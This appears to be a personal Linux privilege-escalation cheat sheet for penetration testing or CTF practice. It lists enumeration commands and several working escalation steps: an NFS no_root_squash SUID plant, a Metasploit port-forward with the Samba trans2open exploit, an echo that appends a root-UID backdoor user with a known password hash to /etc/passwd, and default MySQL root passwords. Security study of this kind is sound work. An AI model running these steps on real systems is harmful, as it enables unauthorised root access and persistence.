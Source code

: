My path to manually PE: 

**capabilities** are a fine‑grained way to give a process some—but not all—of the privileges normally reserved for root. Instead of “all or nothing” (setuid root), you can grant just the permissions you need.

## Capabilities: 
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

## Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


## What Arch?
file /bin/bash

## Kernel?
uname -a

## Issue/Release?
cat /etc/issue
cat /etc/*-release

## Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

## Are any users a member of exotic groups?
groups <user>


## Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

## Users?
cd /home/
ls -lsaht

## Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

## SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

## GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

## SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

## Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


## We need to start monitoring the system if possible while performing our enumeration...
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

## What does the local network look like?
netstat -antup
netstat -tunlp

## Is anything vulnerable running as root?
ps aux | grep -i 'root' --color=auto

## MYSQL Credentials? Root Unauthorized Access?
mysql -uroot -p
Enter Password:
root : root
root : toor
root :

## A quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

## SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

## Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

## Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

## File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

## NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>

[On Target Machine]
user@host$ ./suid


Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user miguel 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht